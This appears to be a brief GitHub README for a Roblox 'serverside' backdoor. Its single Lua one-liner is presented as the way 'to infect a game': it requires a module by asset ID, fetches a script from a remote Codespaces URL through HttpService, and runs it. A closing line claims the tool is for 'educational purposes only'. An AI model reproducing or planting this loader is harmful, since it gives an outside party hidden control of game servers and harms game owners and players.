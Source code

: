 # rbx-serverside
[roblox serverside](https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/)


to infect a game put: 
  ```lua
    require(108059886578663)(game:GetService("HttpService"):GetAsync("https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/script"))()
  ```
educational purposes only
